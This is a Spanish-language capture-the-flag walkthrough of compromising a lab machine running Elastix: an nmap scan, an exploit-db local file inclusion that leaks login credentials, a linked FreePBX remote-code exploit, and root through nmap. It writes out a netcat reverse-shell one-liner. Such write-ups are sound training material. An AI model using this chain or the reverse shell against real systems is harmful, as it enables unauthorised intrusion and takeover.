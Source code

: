 Luego de realizar un escaneo para verificar los puertos abiertos en la maquina victima realizamos un segundo scan con nmap para conocer los servicios en ejecucion en los puertos disponibles, en este caso visualizamos un puerto 80 abierto que corre un servidor web (Apache), por lo que comenzamos desde la web para verificar si hay alguna vulnerabilidad de la que podamos aprovecharnos y asi obtener nuestro compromiso inicial.
![](../../Images/Pasted%20image%2020240415090548.png)
Al revisar la web vemos que se esta utilizando elastix un software de servidor de comunicaciones unificadas, como desconocemos el mismo, procedemos a realizar una busqueda en exploit-db para verificar si hay alguna vulnerabilidad disponible.
![](../../Images/Pasted%20image%2020240415090838.png)
Al revisar en exploit-db encontramos una vulnerabilidad (Local File Inclusion) que nos permite basicamente visualizar archivos dentro del servidor, y ademas encontramos un poc con la direccion URL que debemos visitar para aprovechar esta vulnerabilidad y la direccion a la informacion de la base de datos. 
![](../../Images/Pasted%20image%2020240415090857.png)
Al utilizar la URL que figura en el poc de la vulnerabilidad encontramos bastantes datos de interes.
![](../../Images/Pasted%20image%2020240415091627.png)
Para verlo mas organizado hacemos un view source en el navegador, gracias a esta vulnerabilidad encontramos tanto el nombre de usuario como la contraseña para ingresar a la aplicacion.
![](../../Images/Pasted%20image%2020240415092622.png)
Con nuestras nuevas credenciales ingresamos en la aplicacion, el proximo paso seria conseguir una revshell. 
Por lo que nuevamente buscamos alguna vulnerabilidad disponible.
![](../../Images/Pasted%20image%2020240415093550.png)
Lo que encontramos fue un repositorio en github que basicamente permite obtener una revshell, pero para poder utilizarlo debemos estar dentro de la aplicacion (cosa que ya conseguimos) y habilitar la extension de algun usuario.
https://github.com/am0nsec/exploit/blob/master/unix/webapp/FreePBX-2.10/freepbx_2.10_with_ssl.py
![](../../Images/Pasted%20image%2020240415094445.png)
Por lo que agregamos la extension del usuario administrador dentro de la app.
![](../../Images/Pasted%20image%2020240415094456.png)
Ahora utilizamos el exploit de git para obtener una shell (como se observa nos va pidiendo los datos necesario para su ejecucion, por lo que podemos utilizar el exploit sin opciones.)
![](../../Images/Pasted%20image%2020240415095205.png)
Antes de permitirnos ejecutar algun comando el mismo exploit nos recomienda utilizar nmap para obtener un shell como root. Para que nuestra sesion sea un poco mas estable abrimos un listener en nuestra maquina atacante con netcat.
![](../../Images/Pasted%20image%2020240415095215.png)
En la maquina victima ejecutamos el siguiente comando:
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh  -i 2>&1|nc [LHOST] \[LPORT] >/tmp/f
![](../../Images/Pasted%20image%2020240415095314.png)
Al ejecutar el comando anterior en la maquina victima veremos en nuestro listener (anteriormente configurado) la conexion correspondiente.
![](../../Images/Pasted%20image%2020240415095319.png)
Ahora utilizamos nmap para obtener una root shell y asi obtener la flag.
![](../../Images/Pasted%20image%2020240415095457.png)
![](../../Images/Pasted%20image%2020240415095531.png)
